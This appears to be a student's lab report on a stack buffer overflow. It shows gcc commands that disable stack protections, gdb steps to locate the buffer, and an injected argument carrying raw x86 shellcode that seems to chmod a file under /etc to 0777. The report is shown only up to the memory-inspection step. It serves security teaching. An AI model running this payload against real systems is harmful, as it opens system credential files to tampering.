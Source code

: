 # Lab #1,22110018, Nguyen Hai Duong, INSE330380E_03FIE
# Task 1: Software buffer overflow attack

**Question 1**: 
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Compile both C programs and shellcode to executable code:
*First, Open your Docker terminal and ensure I'm in the correct directory where the vuln.c file is located:*<br>
 Compile the vuln.c program using the following command
 Compile the Shellcode
 <img width="857" alt="{2C65AF27-B47D-428E-99DA-B1C58B7A72AB}" src="https://github.com/user-attachments/assets/9465ef25-462a-49f4-b715-fd3e82d8e2ce">

```sh
"gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"
"gcc shellcode.c -o shell.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"

```


## 2. Conduct the attack so that when C executable code runs, shellcode willc also be triggered:
-Prepare the Payload: firt, obtain the address of the buffer in vuln.out.
<img width="833" alt="{635A2EB6-6C32-4F24-A400-10E7D66A95F8}" src="https://github.com/user-attachments/assets/6f4045c9-9ce1-4b84-97b1-0219986a7389">
```sh
gdb vuln.out
```
-Use disassemble main to find the address of buffer
```sh
disassemble main
```
<img width="848" alt="{F1828BA9-70A9-4B61-A347-4A4E29AB3C9F}" src="https://github.com/user-attachments/assets/a054a436-e0ea-4734-91c6-77581a94d80e">
-Set break point after strcpy instruction

```sh
break *0x0804841e
```
<img width="229" alt="{2022D87A-8DB7-45A7-B781-8A92138F73EB}" src="https://github.com/user-attachments/assets/38287b79-ec78-45c4-88e9-019f384d4205">
- Run program in gdb with injecting argument:
<img width="1278" alt="{C7C3C600-59E9-46F4-933A-42087488FDDF}" src="https://github.com/user-attachments/assets/c714d09d-cca2-475d-9ad7-9d1df45199db">

```sh
 run $(python -c "print('A' * 16 + '\x89\xc3\x31\xd8\x50\xbe\x3e\x1f\x3a\x56\x81\xc6\x23\x45\x35\x21\x89\x74\x24\xfc\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe3\x66\x68\xff\x01\x66\x59\xb0\x0f\xcd\x80' + '\xff\xff\xff\xff')")
```
-Watch the stack memory from esp:
<img width="545" alt="{553B1E8A-C1C3-49C9-A525-2825AE4123E1}" src="https://github.com/user-attachments/assets/9e2b4698-fc2e-45d5-a909-e9252748d9da">
